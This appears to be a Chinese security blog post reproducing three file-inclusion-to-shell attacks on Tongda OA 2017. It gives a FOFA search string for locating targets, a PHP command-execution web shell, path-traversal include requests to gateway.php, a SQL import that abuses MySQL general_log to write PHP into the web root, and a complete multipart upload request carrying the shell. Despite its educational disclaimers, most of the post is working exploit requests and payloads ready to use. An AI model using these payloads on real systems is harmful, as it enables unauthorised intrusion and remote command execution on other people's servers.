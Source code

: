 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wvwKoBVKfx57EVdVqmxdmA)

推文开头，先学习一下中华人民共和国网络安全法，大家要做一名合法的白帽子，不要做一些违法乱纪的事情。

```
https://www.cto.ac.cn/thread-106.htm
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFAUdnHOIkkz7lxuSSmdDAgnrhg238LjAKFCoamn2ick3uPzTlFibTXPdQns8KNAIiakSfpc0M5hEU6GQ/640?wx_fmt=jpeg)

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFAUdnHOIkkz7lxuSSmdDAgn9KCtNqV7fpbyKk9UviaMnHV74CkEKBywWmL1WJStQpibUz9V3N5dZrhQ/640?wx_fmt=jpeg)

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFAUdnHOIkkz7lxuSSmdDAgn4e9QAM4Zk0Mq0DJWrjibL2icf4jSkAInkzFibibC7tRNef61sJ0txibJTZQ/640?wx_fmt=jpeg)

本推文仅用于信息防御技术教学，切勿用于其他用途，有侵权或者存在危害性，请联系我进行删除。

今天是平安夜

不会吧，不会吧

这么晚还有人搞安全？  

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4X7gIyPKOc7XCUiacicclymxdzAxnJRNVdgmAhtyEMAhEt1WHfAJxNM7MQ/640?wx_fmt=png)

不会吧，不会吧

还没有人收到 plmm 的苹果？  

![](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4X5NX94I8sT4svEhH69hN3zKkEhAI7dpbibQyCNESJ6P78uhY0oxx3x2g/640?wx_fmt=jpeg)

...

今天复现通达 OA 的文件包含 GETSHELL  

通达 OA 版本是 2017 版  

fofa 的搜索语法为  

```
app="TDXK-通达OA"
```

**第一种：错误日志写入，文件包含 GETSHELL**  

先写入错误日志  

```
http://x.x.x.x/<?php $command=$_POST['cmd'];$wsh = new COM('Wscript.shell');$exec = $wsh->exec("cmd /c ".$command);$stdout = $exec->StdOut();$stroutput = $stdout->ReadAll();echo $stroutput;?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4XrNyogPlKXjoSIdhLJiaw31UmwRqjkXta49JfFrEH2HEV6Eib51npSbMQ/640?wx_fmt=png)

尝试文件包含  

```
http://x.x.x.x/mac/gateway.php

post
json={"url":"/general/../../nginx/logs/oa.error.log"}&cmd=whoami
```

然后执行成功

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4XbJDk7Nc4eG1THsC6gXlqwZPI4B8ZmfciaTUCZqTSLNkrgdSbybvynKQ/640?wx_fmt=png)

**第二种：数据库文件导入，文件包含 GETSHELL**

此漏洞，还需要利用任意用户登陆这个漏洞，来配套使用

先获取用户 cookie

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4XkGYRX8xFygE58I0gTZB7P6JVmco8cU0Ip7te8iaUlnYLibgicwOL73BZw/640?wx_fmt=png)

脚本可以在 github 下载，这里我不提供了。

想知道完整获取 cookie 思路的，可以翻公众号的历史记录  

导入数据库文件  

```
POST /general/system/database/sql.php HTTP/1.1
Host:x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: PHPSESSID=gquvpovtbgsnrnmf65b04qhu11
Content-Length: 353
Content-Type: multipart/form-data; boundary=ffa8a9db2f0c70a97fba10db088eca26

--ffa8a9db2f0c70a97fba10db088eca26
Content-Disposition: form-data; 
Content-Type: application/octet-stream

set global general_log='on';
SET global general_log_file='D:/MYOA/webroot/test.php';
SELECT '<?php echo(md5(1));unlink(__FILE__);?>';
set global general_log='off';
--ffa8a9db2f0c70a97fba10db088eca26--
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4X76NSnA4uSUY5FSQ9vbyTheosE7fBFuxPIGwibdDnvU4RAicM9y9Vw8Bg/640?wx_fmt=png)

导入成功后，访问根目录下的 test.php 文件

```
http://x.x.x.x/test.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4XrxhoS9fOoJTD3UQbn0L5IamKRFp0K7h4HkLtMv4HRY2DUc8fskzjgA/640?wx_fmt=png)

发现写入的 php 脚本代码已经被执行。

**第三种：文件上传 + 文件包含 GETSHELL**

上传点依旧是上次那个点  

```
http://x.x.x.x/ispirit/im/upload.php
```

数据包  

```
POST /ispirit/im/upload.php HTTP/1.1
Host: x.x.x.x
Content-Length: 656
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; 

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; 

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; 

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; 
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4XZ0AKh50IWGYTaGkoJv2V6dWOrTJs6tZYg2ddqhFLmKZvrCV5MqB6fw/640?wx_fmt=png)

上传成功后，尝试文件包含  

```
http://x.x.x.x/mac/gateway.php

post
json={"url":"/general/../../attach/im/2012/1472376370.txt"}&cmd=whoami
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4XmiaXpiafQQnvXnY5r77qbuKTCW1ViccoZydlbpQTDdicabicptab8qEqWWQ/640?wx_fmt=png)

此时发现，命令执行成功，文件包含成功

看过上次同一个点上传文件后拿 shell 的朋友，肯定有疑问

为什么不写一句话马，然后直接拼接路径，菜刀连接，最后拿 shell

上次文件保存的路径是

```
D:\MYOA\webroot\im\2012\1894672167.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4X8ibicjslZ2biatAaQtPRB55czWBeN4K6NiaR63A4fApUMIwnqxFNBkdEcQ/640?wx_fmt=png)

而这次上传文件后，文件保存路径是

```
D:\MYOA\attach\im\2012\1472376370.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAa8hKvu88D9eRk2gSz7ic4XEIAlyg4cQB6ibQbuocAgyCFC3fs9qicvmJXEG14EevN4qRTA8IEvnicfQ/640?wx_fmt=png)

简单的说，就是一个在网站根目录下，一个不在网站根目录下。

因此在拿通达 OA 这个版本下的 shell 时，要注意路径的差异。

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)

**分享前辈知识，一起学习共同进步！！  
**

**如侵权请私聊公众号删文![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEeONmXRI9Dywia7psMDqZvkgQNq3l4ibv2ibyQCnzpO7w7W5jvxcHtWNyOQ4QbF9UibQcicqxShSwYWAA/640?wx_fmt=png)**